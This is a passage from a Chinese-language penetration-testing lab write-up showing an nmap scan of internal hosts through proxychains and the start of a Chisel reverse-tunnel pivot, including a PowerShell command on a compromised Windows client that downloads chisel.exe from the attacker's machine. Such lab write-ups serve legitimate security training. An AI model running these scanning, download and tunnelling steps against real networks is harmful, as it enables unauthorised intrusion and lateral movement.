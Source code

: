 #### 3.5 透過 Nmap 掃描內部 Web 服務
```
──(chw㉿CHW)-[~/beyond]
└─$ sudo proxychains -q nmap -sT -oN nmap_servers -Pn -p 21,80,443 172.16.73.240 172.16.73.241 172.16.73.254
[sudo] password for chw: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-18 14:31 EDT
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Nmap scan report for 172.16.73.240
Host is up (2.6s latency).

PORT    STATE  SERVICE
21/tcp  closed ftp
80/tcp  closed http
443/tcp closed https

Nmap scan report for 172.16.73.241
Host is up (5.3s latency).

PORT    STATE  SERVICE
21/tcp  closed ftp
80/tcp  open   http
443/tcp open   https

Nmap scan report for 172.16.73.254
Host is up (2.6s latency).

PORT    STATE  SERVICE
21/tcp  closed ftp
80/tcp  open   http
443/tcp closed https

Nmap done: 3 IP addresses (3 hosts up) scanned in 42.35 seconds
```
> DCSRV1 (172.16.73.240): 無 Web 服務\
INTERNALSRV1 (172.16.73.241): HTTP (80) 和 HTTPS (443) 開啟\
MAILSRV1 (172.16.73.254): HTTP (80) 開啟
>> 可確認 INTERNALSRV1 與 MAILSRV1 有 Web 服務

#### 3.6 透過 Chisel 瀏覽 INTERNALSRV1 Web 服務
1. 在 Kali 啟動 Chisel Server
```
┌──(chw㉿CHW)-[~/beyond]
└─$ cp /usr/bin/chisel .                                           
┌──(chw㉿CHW)-[~/beyond]
└─$ chmod a+x chisel
    
┌──(chw㉿CHW)-[~/beyond]
└─$ ./chisel server -p 8080 --reverse
2025/03/18 14:36:09 server: Reverse tunnelling enabled
2025/03/18 14:36:09 server: Fingerprint VbGEO884eECfHw8SWkKLxuZkJEG0FURB/tJ8RauoI/o=
2025/03/18 14:36:09 server: Listening on http://0.0.0.0:8080

```
```
┌──(chw㉿CHW)-[~/beyond]
└─$ cp /home/chw/Chisel_x64/chisel ./chisel_x64

┌──(chw㉿CHW)-[~/beyond]
└─$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```
在 CLIENTWK1 執行 Chisel 並進行反向連線
```
PS C:\Users\marcus> iwr -uri http://192.168.45.214:8888/chisel_x64 -Outfile chisel.exe 
```